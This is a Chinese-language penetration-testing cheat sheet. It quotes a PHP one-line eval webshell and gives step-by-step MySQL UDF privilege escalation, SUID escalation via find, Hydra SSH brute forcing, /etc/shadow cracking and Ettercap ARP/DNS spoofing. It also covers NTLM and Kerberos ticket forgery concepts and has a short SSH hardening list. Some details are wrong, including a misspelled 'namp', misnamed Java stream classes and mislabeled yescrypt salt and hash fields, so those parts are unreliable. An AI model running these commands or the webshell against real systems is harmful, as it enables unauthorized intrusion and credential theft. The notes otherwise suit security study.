


### 常见危险函数

1. eval ()
   ``mixed eval ( string $code )``
   函数 eval() 语言结构是非常危险的， 因为它允许执行任意 PHP 代码。``<?php @eval($_POST['v']);?>``—— 常见的一句话木马。

2. assert()
   ``bool assert ( mixed $assertion [, string $description ] )``
   php语言危险函数

3. call_user_func()
   php函数把第一参数作为回调函数

4. array_map()
   php函数为数组的每个元素应用回调函数
   
5. \`\`反引号
   ```<?php echo `whoami`;?>```

6. exec
   python语言危险函数

7. 
   java中没有类似php中的eval函数，但是有反射机制，并有各种基于反射机制的表达式引擎，如：OGNL、SpEL等
### GETSHELL到UDF提权

#### 信息收集

打点技术 端口 ip 域名 邮箱 手机

端口扫描：
namp：nmap -sS -Pn -v -a

|     |                                        |
| --- | -------------------------------------- |
| -sS | 隐蔽扫描                                   |
| -Pn | 服务器禁止ping命令，跳过主机发现的过程进行端口扫描，-p0也要类似的效果 |
| -P0 | 免Ping 扫描，穿透防火墙，避免被防火墙发现                |
| -v  | 显示扫描过程                                 |
| -A  | 全面的系统扫描:包括打开操作系统探测、版本探测、脚本扫描、路径跟踪      |

#### getshell

1. 利用3306端口，获取mysql用户名 密码

2. 查询系统位数，32/64

   show variables like '%compile%';

3. 利用mysql-udf提权 用户自定义函数

   建立一张表，将dll16进制文件临时存放到表中。使用mysql < *.sql 或使用数据库连接工具。

4. 查询是否有导出权限

   show global variables like 'secure%';

5. 导出位置

   select version();

   mysql<5.0 任意

   5.0<=mysql<5.1 放在系统目录

   mysql>=5.1 lib/plugin

6. 导出到指定位置

   show variables like 'plugin%';

   SELECT udf FROM temp_udf INTO DUMPFILE "plugin_dir";
#### 远程桌面

1.打开3389端口
#### www提权

whoami 

回显：www

**SUID提权**



**nmap, find, vim, bash, more, less, nano, cp, awk, mv**

1、查找那些命令有suid

```shell
find / -user root -perm -4000 -print 2>/dev/null
```

2、发现find命令有suid，可以提权

```shell
find <filename> -exec whoami \; # 回显root
chattr -i <filename> # 修改文件为可修改
```

```
a：让文件或目录仅供附加用途。
b：不更新文件或目录的最后存取时间。
c：将文件或目录压缩后存放。
d：将文件或目录排除在倾倒操作之外。
i：不得任意更动文件或目录。
s：保密性删除文件或目录。
S：即时更新文件或目录。
u：预防意外删除。
```
### Linux 密码破解

#### 本机登陆

#### 远程登陆

方式：Telnet、VNC、SFTP、SSH-secure shell

SSH 22号端口

```shell
> ssh root@<ip>
```

暴力破解：msf、hydra、medusa

```shell
# 在线爆破
hydra <ip> ssh -f -L user.txt -P password.txt -t 20
# 离线爆破
# 拿到存储密码的文件: /etc/passwd , /etc/shadow
# 工具: john、hashcat
kali:$y$j9T$syJ4c33f2G3t4qhVR/geu.$0RGhUWfVibVvPWIP3hcZD.b859AGmMtdPyTvmc5tLxC:19212:0:99999:7:::
$y 加密方式 yescrypt
$y$j9T 盐
$syJ4c33f2G3t4qhVR/geu 密码 
```

**防范**

关闭/更改端口 22

禁止密码登录

限制IP

配置账号锁定策略 /etc/pam.d/sshd
### DNS

kali 工具：etter-cap

vi /etc/ettercap/etter.dns

www.jd.com A \<ip>      # A正向解析

www.jd.com PTR \<ip>  # 反向解析

发动攻击

ettercap -i eth0  -Tq -M arp:remote -P ...
### 内网渗透

**三大认证**

本地认证：单台电脑的认证，LM、NTLM

网络认证：两台电脑之间的认证

Kerberos认证：域中认证方式

**LM哈希计算** 

1. 密码转为大写

2. 转为16进制

3. 不足14位时补00

4. 分为2组

5. 每组转为2进制

6. 每7个bit后面添加0

7. 将上述二进制转为16进制

8. 将上述两组8字节编码，分别作为DES加密key为魔术字符串KGS!@#$%加密

9. 将两组数据合并就是LM哈希值

**NTLM哈希计算**

1. 明文转为16进制
2. 转为Unicode
3. MD4加密，加密结果为NTML哈希值

**工作组和域**



**Kerberos**

组成：客户端Client、服务端Server、密钥分发中心KDC（认证服务器AS、票据授予服务器TGS）

黄金票据：伪造TGT。白银票据：伪造ST。黄金票据权限更高。

**委派方式**

非约束性委派：对委派机器没有限制

约束性委派

基于资源的约束性委派
### JAVA序列化和反序列化

序列化：OutputObjectStream类writeObject()方法

反序列化：InputObjectStream类readObject()方法

**特征参考：**

以rO0AB开头，基本确定为java序列化base64加密数据。

以aced开头，基本确定为Java序列化16进制数据。
